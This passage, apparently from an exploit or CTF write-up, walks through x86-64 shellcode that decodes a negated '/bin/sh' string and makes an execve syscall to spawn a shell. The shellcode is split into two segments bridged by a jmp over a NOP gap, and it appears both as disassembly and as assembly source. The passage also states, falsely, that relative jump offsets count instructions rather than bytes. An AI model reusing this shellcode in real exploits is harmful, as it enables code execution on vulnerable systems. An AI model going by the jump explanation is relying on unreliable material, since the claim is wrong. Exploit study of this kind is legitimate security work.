 
Remember the relative jump opcode (0xe9) works off of the number instructions (which vary in bytes), not bytes.

block1:
```
  4000a8:    31 f6                    xor    esi,esi
  4000aa:    f7 e6                    mul    esi
  4000ac:    04 3b                    add    al,0x3b
  4000ae:    48 f7 df                 neg    rdi
  4000b1:    57                       push   rdi
  4000b2:    54                       push   rsp
  4000b3:    5f                       pop    rdi
  4000b4:    0f 05                    syscall
```
Here is the rest of the shellcode. It essentially just sets for the syscall which will give us a shell, then makes the syscall. All we really did with the shellcode was move around some of the instructions, and add a jmp instruction.

Here is a look at the shellcode precompiled. The NOPs represent the space between the two segments,
```
$    cat shellcode.asm
[SECTION .text]
global _start
_start:
    mov rdi, 0xff978cd091969dd1
    jmp 0x10
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    xor esi, esi
    mul esi
    add al, 0x3b    
    neg rdi
    push rdi
    push rsp
    pop rdi
    syscall
```

